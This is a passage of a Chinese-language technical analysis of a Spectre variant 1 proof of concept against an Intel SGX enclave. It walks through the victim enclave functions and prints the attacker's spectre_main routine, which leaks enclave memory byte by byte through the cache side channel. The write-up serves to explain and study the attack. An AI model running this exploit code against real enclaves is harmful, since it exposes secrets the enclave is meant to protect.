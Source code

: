 <center><font size="2" color="#595959">代码1 ecall_get_offset</font></center>

首先受害代码初始化了一个全局变量，存入Enclave中，这些变量中，arry1被受害程序使用，作为训练CPU存入cache的被攻击内存；arry2是一个大数组，理论上该数组应由攻击者进行推测和反复尝试得出，在POC中为简单起见，该数组在Enclave外部声明并作为参数传入。

ecall_get_offset向Enclave外返回secret基于arry1的偏移。事实上当攻击者欲访问任意内存时，只需要得知该内存基于arry1的偏移即可。

### ecall_victim_function

``` C
void ecall_victim_function(size_t x, uint8_t * array2, unsigned int * outside_array1_size) {
    //if (x < array1_size) {
    if (x < *outside_array1_size) {
         temp &= array2[array1[x] * 512];
     }
}
```

<center><font size="2" color="#595959">ecall_victim_function</font></center>

ecall_victim_function是真正的受害代码，该函数判断x的值是否越界，并根据arry1[x]的值在arry2中寻址，其中x是传入的参数。这里反复调用该函数会导致arry1[x]的值被存入cache中，为之后的攻击提供了机会。

## 3.3 攻击代码分析

攻击代码有main/main.c和main/enclave_init.c两个文件，其中攻击代码的入口点和攻击方式均在main.c中，enclave_init.c负责Enclave的初始化和销毁。在main.c中的main函数中，程序首先调用相关函数进行初始化操作，接着就进入spectre_main函数执行具体的攻击逻辑。

### spectre_main

``` C
int spectre_main(int argc, char **argv) {
    size_t malicious_x; 
    sgx_status_t ret  = ecall_get_offset(global_eid, &malicious_x); /* default for malicious_x */
    if (ret != SGX_SUCCESS)
            abort();
    int i, score[2], len=40;
    uint8_t value[2];
    for (i = 0; i < sizeof(array2); i++)
        array2[i] = 1; /* write to array2 so in RAM not copy-on-write zero pages */
    if (argc == 3) {
        sscanf(argv[1], "%p", (void**)(&malicious_x));
        malicious_x -= (size_t)array1dupe; /* Convert input value into a pointer */
        sscanf(argv[2], "%d", &len);
    }
    printf("Reading %d bytes:\n", len);
    while (--len >= 0) {
        printf("Reading at malicious_x = %p... ", (void*)malicious_x);
        readMemoryByte(malicious_x++, value, score);
        printf("%s: ", (score[0] >= 2*score[1] ? "Success" : "Unclear"));
        printf("0x%02X='%c' score=%d ", value[0], (value[0] > 31 && value[0] < 127 ? value[0] : '?'), score[0]);
        if (score[1] > 0)
            printf("(second best: 0x%02X score=%d)", value[1], score[1]);
        printf("\n");
    }
    return (0);
}
```
